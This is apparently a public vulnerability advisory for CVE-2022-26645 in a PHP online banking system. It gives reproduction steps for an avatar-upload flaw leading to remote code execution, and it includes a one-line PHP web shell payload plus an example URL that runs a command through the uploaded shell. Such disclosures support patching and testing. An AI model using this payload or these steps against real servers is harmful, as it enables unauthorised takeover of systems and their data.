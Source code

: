 # Tittle: Online Banking System RCE

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26645
-  Description: Potential RCE and XSS via file upload. A user can use the upload functionality to gain access to the server crafting php code.

####  Steps to reproduce:

-  **1- Go to [http://web.com/admin/?page=user](http://web.com/admin/?page=user)**
-  **2- Modify your avatar profile and upload your php code.**

Payload used: `<?php echo shell_exec($_GET['shell']);?>`

![phpcode](https://user-images.githubusercontent.com/47476901/160638195-898d61e9-4467-4e32-b95c-362c0aecff97.png)



-  **3- We can see the url of the uploaded file clicking on the image zone.**

![upload](https://user-images.githubusercontent.com/47476901/160638239-48088317-ba7f-497a-bfb4-91eb9570eda7.png)

- **4- Going to that url we will execute the code.**

http://<ip_server>/uploads/1648559940_shell.php?shell=id
![rce](https://user-images.githubusercontent.com/47476901/160638221-ec57e5bf-4793-459e-8763-a913e496825b.png)

